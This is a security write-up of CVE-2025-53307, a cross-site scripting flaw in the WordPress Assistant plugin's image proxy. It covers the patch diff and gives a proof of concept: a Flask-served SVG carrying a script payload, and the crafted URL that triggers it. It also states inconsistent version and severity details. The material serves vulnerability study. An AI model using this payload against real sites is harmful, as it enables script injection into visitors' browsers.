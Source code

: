 ```yaml
---
title: CVE-2025-53307 Analysis & POC
description: Security Vulnerability in WordPress Assistant Plugin.
date: 2025-10-03 19:19:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, xss]
weight: 1
images: []
featuredImage: "app.png"

lightgallery: true

toc:
auto: false
---
```

---

The vulnerability exists in the **Assistant** plugin for WordPress prior to version **3.6.2**. This could allow an attacker to inject malicious code (e.g., redirect scripts, ads, or other HTML payloads) into the website, which would execute when visitors open the page.

* **CVE ID**: [CVE-2025-53307](https://www.cve.org/CVERecord?id=CVE-2025-53307)
* **Product**: [WordPress Assistant Plugin](https://wordpress.org/plugins/assistant/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.5.2
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **Assistant**: v1.5.2 (vulnerable) and v1.5.3 (patched)
* **Diff tool**: **meld** or any tool capable of comparing two versions

---

## Analysis

The application displays user-provided image content directly via a URL **without validating or fully checking the MIME type**. This allows an attacker to supply a file disguised as an image, which when processed by the browser, executes malicious code → resulting in an XSS vulnerability.

### Patch Diff

Use any diff tool to compare the vulnerable version and the patch.

![Patch Diff](patch_diff.png "Diff between vulnerable and patched version")

In this case, there are significant differences between the two versions. For easier tracking, the [change log](https://wordpress.org/plugins/assistant/#developers) identifies where the XSS patch was applied:

```
Changelog
1.5.3 (2025-09-08)

- Changes to support the integration of Assistant in Beaver Builder version 2.10
- Fixed dark mode issues on the Home app and sidebar.
- Security: Fixed a potential XSS vulnerability in the "image proxy"
```

👉 The vulnerability is located in **backend/src/Hooks/ImageProxy.php**. Observing the differences between the two versions:

![Patch Diff 1](patch_diff1.png "Differences in the render_image function of ImageProxy.php")

The changes occur in the `render_image` function, which:

* Accepts a URL parameter from the query string `($_GET['url'])`.
* Sends a request from the server to that URL to fetch the content.
* Prevents **SSRF** using `wp_safe_remote_get`.
* If the content has a **Content-Type** header starting with `image/`, then:

  * Sends the same **Content-Type** header back to the client.
  * Echoes the file content to the browser.
* The browser displays the image **not directly from the original source but through the WordPress server**.

> SVG files also have a **Content-Type** starting with `image/` and can contain embedded JavaScript → XSS can occur.

The patch added an additional check to verify the **actual MIME type** of the file to prevent XSS via SVG or maliciously disguised files.

```php
$filesystem = self::filesystem();
$tmpfile    = tempnam( '/tmp', 'assistant' );
$filesystem->put_contents( $tmpfile, $body );
$validimage = wp_get_image_mime( $tmpfile );
$filesystem->delete( $tmpfile );

if ( ! $validimage ) {
    return false;
}
```

[`wp_get_image_mime()`](https://github.com/WordPress/wordpress-develop/blob/6.8.2/src/wp-includes/functions.php#L3330-L3417) uses internal image processing (based on the binary data of the file) to determine the actual MIME type.

If the result is not a valid image → returns **false**.

### How it works

In the `__construct` of the `ImageProxy` class, the `render_image()` method is called via the `'init'` action hook. The `'init'` hook runs early in WordPress loading, after core objects are initialized but before output is sent to the browser.

`render_image` is called only if the current user has permission to edit other users' posts and the `$_GET['fl_asst_image_proxy']` parameter exists.

👉 Accessing `/wp-admin/?fl_asst_image_proxy=value1&url=http://yoursite/image-path` triggers `render_image` and returns the image content to the browser.

---

## Exploit

### Detect XSS

Create a simple [web page](https://github.com/w41bu1/w41test) returning an SVG containing an XSS payload:

```py
from flask import Flask, Response

app = Flask(__name__)

@app.route('/')
def home():
    return 'Hello, World!'

@app.route('/svg')
def about():
    svg = """<?xml version="1.0" encoding="UTF-8"?>
    <svg xmlns="http://www.w3.org/2000/svg">
        <script>alert(document.domain)</script>
    </svg>"""
    return Response(svg, mimetype="image/svg+xml")
```

Send a request with the **url parameter** pointing to `https://yoursite/svg`:

```
http://localhost/wp-admin/?fl_asst_image_proxy=abc&url=https://yoursite/svg
```

👉 Successful for `Unauthenticated` because as long as the user has permission, accessing the URL triggers XSS in the victim’s browser. The attacker does not need to log in.

![Detect](detect.png "SVG with XSS payload displayed via image proxy")

---

## Conclusion

The **CVE-2025-53307** vulnerability in the WordPress Assistant plugin (**<= v1.5.2**) allows XSS via `render_image()` because it does not validate the actual file **MIME type**. Version **v1.5.3** patched this by verifying the file content before returning it to the browser.

**Key takeaways**:

* Do not trust the **Content-Type header** from **HTTP responses**.
* Always validate the **actual MIME type** of the file.

---

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Assistant Plugin <= 1.5.2 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/assistant/vulnerability/wordpress-assistant-plugin-1-5-2-cross-site-scripting-xss-vulnerability)

---
